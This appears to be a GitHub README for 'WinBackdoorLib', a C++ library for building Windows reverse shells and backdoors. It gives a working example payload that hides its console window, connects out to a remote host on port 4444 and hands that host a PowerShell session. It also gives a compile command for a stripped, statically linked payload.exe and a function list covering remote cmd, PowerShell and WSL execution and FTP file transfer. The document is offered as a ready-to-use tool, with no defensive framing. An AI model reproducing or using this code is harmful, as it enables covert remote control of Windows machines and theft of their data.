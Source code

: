 # WinBackdoorLib
a simple module to create "reverse shell or backdoor" simply with Windows API

![Image1](capture.PNG)


## example Payload :
  ```cpp
#include "backdoorlib.h"
#include <iostream>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string.h>
#include <wininet.h>
#include <windows.h>

#pragma comment(lib,"Ws2_32.lib")

#define REMOTE_ADDR "192.168.1.71"
#define REMOTE_PORT 4444

int main()
{
    hide_console();
    WSADATA wsa_version;
    SOCKET socks;

    struct sockaddr_in session;

    session.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    session.sin_family = AF_INET;
    session.sin_port = htons(REMOTE_PORT);

    WSAStartup(MAKEWORD(2,2),&wsa_version);
    socks = WSASocket(AF_INET, SOCK_STREAM,IPPROTO_TCP,0,0,0);
    int c = connect(socks,session);
    if (c == 0)
	{
        execute_powershell(socks);
    }
    return 0;
}
  ```

## Compile Payload :
  ### g++ backdoorlib.cpp reverse_powershell.cpp -o payload.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lwininet
  

## List Function in Header :
```cpp
void hello_world(void);
char * raw_input(char *input_string);
int input(char *input_string);
void clear(void);
int substring_in_string(char *substring,char *string);
void print(char *string);
TCHAR *get_username();
int check_dir(char *pathname);
int tchar_substring_in_string(char *substring,TCHAR *string);
int StartsWith(const char *a, const char *b);
void hide_console(void);
void sleep(int number);
int connect(SOCKET socks_instance,struct sockaddr_in session);
int send(SOCKET socks_instance,char *buffer);
int recv(SOCKET socks_instance,char *buffer,int len);
void cmd_command(SOCKET socks_instance,char *command);
void powershell_command(SOCKET socks_instance,char*command);
void wsl_command(SOCKET socks_instance,char *command);
void execute_process(SOCKET socks_instance,char *process);
void execute_cmd(SOCKET socks_instance);
void execute_powershell(SOCKET socks_instance);
int download_to_ftp(char* filename, char* ftp_host, int ftp_port, char* ftp_user, char* ftp_pass);
int cd(char* path);
int download_on_ftp(char* filename, char* ftp_host, int ftp_port, char* ftp_user, char* ftp_pass);
```
